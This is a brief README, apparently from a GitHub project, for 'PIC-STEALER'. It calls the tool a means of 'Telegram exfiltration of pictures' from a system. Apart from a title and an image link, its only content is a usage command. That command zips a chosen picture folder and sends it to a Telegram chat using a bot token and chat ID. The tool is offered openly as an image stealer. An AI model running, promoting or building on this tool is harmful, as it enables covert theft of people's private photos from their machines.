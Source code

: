 # PIC-STEALER
TELEGRAM EXFILTRATION OF PICTURES IN SYSTEM
<img src="https://github.com/hacker1337itme/PIC-STEALER/blob/main/zipimagestealer.jpeg">

Usage:

```shell
./ziper_imager -d -l "PIC FOLDER" -o images.zip -c "ID" -t "TOKEN" -m "PWN"
```

